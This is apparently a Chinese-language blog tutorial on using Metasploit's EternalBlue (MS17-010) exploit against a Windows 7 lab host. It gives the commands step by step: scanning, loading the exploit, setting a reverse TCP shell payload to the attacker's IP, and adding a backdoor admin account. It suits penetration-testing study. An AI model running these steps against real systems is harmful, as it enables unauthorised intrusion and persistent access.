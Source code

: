 ```yaml
---
title: "使用msf渗透攻击Win7主机"
date: 2020-02-21T18:57:54+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


使用Metasploit渗透攻击Win7系统



<!--more-->



![](http://junmoxiao.org.cn/20200221174807.png)

* 设置Win7系统的防火墙安全策略

  ![](http://junmoxiao.org.cn/20200221191051.png)

![](http://junmoxiao.org.cn/20200221191016.png)

* 查询ms17-010漏洞的相关模块

  ~~~
  msf5 > search ms17-010
  ~~~

* 扫描目标是否存在ms17-010漏洞 

  ~~~
  use auxiliary/scanner/smb/smb_ms17_010 #查找扫描模块
  info 
  show options  #查询模块可选参数
  set RHOSTS 192.168.1.131 #设置目标主机IP
  run #扫描目标
  ~~~

  ![](http://junmoxiao.org.cn/20200221191541.png)

* 查找漏洞渗透攻击模块并执行渗透攻击

~~~
search ms17-010  #查找攻击模块
use exploit/windows/smb/ms17_010_eternalblue #使用use命令加载模块
show options  #查询模块可选参数
set RHOSTS 192.168.1.131 #设置目标主机IP
show targets #查看exploit target目标类型
set target 
search /windows/x64/shell type:payload #找一个payload，获取shell远程连接权限后，进行远程执行命令
set payload windows/x64/shell/reverse_tcp #设置payload后门,获取shell远程连接
show options
set LHOST 192.168.1.130 #设置payload参数
show options
run #执行渗透攻击
~~~

![](http://junmoxiao.org.cn/20200221192812.png)

* 执行远程命令

  ~~~
  net user admin admin /add
  chcp 65001
  net user
  whoami
  ~~~

  

* 通过会话进行连接目标机并后台运行

  ~~~
  exploit -j
  sessions 
  sessions -i ID #通过会话Id进入会话 
  background #退出会话将会话保存到后台
  sessions -k ID #根据会话Id结束会话
  ~~~

  

## Metasploit渗透攻击流程

1、查找CVE公布的漏洞 

2、查找对应的exploit\auxiliary模块 

3、查询配置模块参数 

4、添加payload后门 并配置模块参数

5、执行exploit开始攻击

6、通过会话进行连接目标机并执行命令

7、后台运行会话和结束会话